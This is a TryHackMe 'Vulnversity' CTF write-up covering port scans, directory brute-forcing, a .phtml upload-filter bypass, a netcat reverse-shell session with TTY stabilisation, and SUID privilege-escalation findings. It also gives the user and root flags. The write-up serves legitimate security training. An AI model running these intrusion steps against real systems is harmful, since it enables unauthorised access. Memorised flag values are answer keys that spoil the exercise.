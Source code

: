# This is my writeup for the Try Hack Me box - [Vulnversity](https://tryhackme.com/room/vulnversity)

The box showcases web exploitation and set uid priv escalation.\
The box is now taken of the website. But still worth it.
 
> Pratyush Prakhar (5#1NC#4N) - 11/01/2020


## RECONNAISSANCE

1. Scan the box, how many ports are open?- **6**
	1. Ran a quick scan for all ports

	**Output**

	```bash
	sudo nmap -p- -vv 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 22:50 EST
	Initiating Ping Scan at 22:50                                                                                                                                         ............                                                                                                          
	Initiating SYN Stealth Scan at 22:50
	Scanning 10.10.237.128 [65535 ports]
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 4.77% done; ETC: 23:01 (0:10:19 remaining)
	.......
	SYN Stealth Scan Timing: About 77.43% done; ETC: 23:03 (0:02:58 remaining)
	Discovered open port 3128/tcp on 10.10.237.128
	SYN Stealth Scan Timing: About 82.85% done; ETC: 23:03 (0:02:17 remaining)           
	```

	2. Then ran a standard scan for the specific ports found - **21,22,139,445,3128,3333**

	**Output**

	```bash
	sudo nmap -vv -sC -sV -p21,22,139,445,3128,3333 10.10.237.128
	Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 23:03 EST
	NSE: Loaded 153 scripts for scanning.
	.........
	Initiating SYN Stealth Scan at 23:03
	Scanning 10.10.237.128 [6 ports]
	Discovered open port 3128/tcp on 10.10.237.128
	Discovered open port 22/tcp on 10.10.237.128
	Discovered open port 445/tcp on 10.10.237.128
	Discovered open port 21/tcp on 10.10.237.128
	Discovered open port 139/tcp on 10.10.237.128
	Discovered open port 3333/tcp on 10.10.237.128
	Completed SYN Stealth Scan at 23:03, 0.24s elapsed (6 total ports)
	Initiating Service scan at 23:03
	Scanning 6 services on 10.10.237.128
	Completed Service scan at 23:03, 22.30s elapsed (6 services on 1 host)
	NSE: Script scanning 10.10.237.128.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 5.94s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 1.21s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 23:03
	Completed NSE at 23:03, 0.01s elapsed
	Nmap scan report for 10.10.237.128
	Host is up, received reset ttl 61 (0.17s latency).
	Scanned at 2020-11-01 23:03:20 EST for 30s
	PORT     STATE SERVICE     REASON         VERSION                                                                                                                                                               
	21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
	22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5	
	/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
	|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
	|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
	139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  syn-ack ttl 61 Squid http proxy 3.5.12
	|_http-server-header: squid/3.5.12
	|_http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
	| http-methods:
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Vuln University
	Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Host script results:
	|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -3s
	| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| Names:
	|   VULNUNIVERSITY<00>   Flags: <unique><active>
	|   VULNUNIVERSITY<03>   Flags: <unique><active>
	|   VULNUNIVERSITY<20>   Flags: <unique><active>
	|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
	|   WORKGROUP<00>        Flags: <group><active>
	|   WORKGROUP<1d>        Flags: <unique><active>
	|   WORKGROUP<1e>        Flags: <group><active>
	| Statistics:
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
	|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
	| p2p-conficker: 
	|   Checking for Conficker.C or higher...
	|   Check 1 (port 14476/tcp): CLEAN (Couldn't connect)
	|   Check 2 (port 46485/tcp): CLEAN (Couldn't connect)
	|   Check 3 (port 37058/udp): CLEAN (Failed to receive data)
	|   Check 4 (port 47439/udp): CLEAN (Failed to receive data)
	|_  0/4 checks are positive: Host is CLEAN or ports are blocked
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: vulnuniversity
	|   NetBIOS computer name: VULNUNIVERSITY\x00
	|   Domain name: \x00
	|   FQDN: vulnuniversity
	|_  System time: 2020-11-01T23:03:41-05:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-11-02T04:03:42
	|_  start_date: N/A
	```

	3. What version of the squid proxy is running on the machine? - **3.5.12**

	4. How many ports will nmap scan if the flag -p-400 was used? - Basically translates to -p1-400. - **400**

	5. Using the nmap flag -n what will it not resolve? - can be found in **man page of nmap** - **DNS**

	6. What is the most likely operating system this machine is running? - Leaked from the smb enum script - **Ubuntu**

	7. What port is the web server running on? - Service running on Apache Web Server - **3333**


## GOBUSTER
	
2. What is the directory that has an upload form page? - **/internal/** - Upload

**GOBUSTER OUTPUT**

```bash
gobuster dir -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://10.10.237.128:3333"

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.237.128:3333
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/01 23:57:56 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
..........
===============================================================
2020/11/01 23:58:22 Finished
===============================================================
```

## Web Exploit

**Images**

1. What common extension seems to be blocked? - **.php**

3. What extension is allowed? - **.phtml**

4. Stabilizing shell

**Output**

```bash
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.2.44.183] from (UNKNOWN) [10.10.25.49] 44380
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
01:32:54 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ ^Z
[1]+  Stopped                 nc -lnvvp 8888
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ stty raw -echo
kali@kali:~/Desktop/Try_Hack_Me/Vulnversity$ nc -lnvvp 8888                                
```

5. What is the name of the user who manages the webserver? - **bill**

```bash
www-data@vulnuniversity:/home$ ls
bill
```

6. What is the user flag? - **8bd7992fbe8a6ad22a63361004cfcedb**

```bash
www-data@vulnuniversity:/home/bill$ ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege Escalation

**LINPEAS OUTPUT**
```bash
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root   root        44K May  7  2014 /bin/ping6
.......
-rwsr-xr-x 1 root   root        23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root   root        97K Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root       419K Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root       645K Feb 13  2019 /bin/systemctl
```

1. On the system, search for all SUID files. What file stands out? - **/bin/systemctl**

2. What is the root flag? - **a58ff8579f0a9270368d33a9966c7fd5**


**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)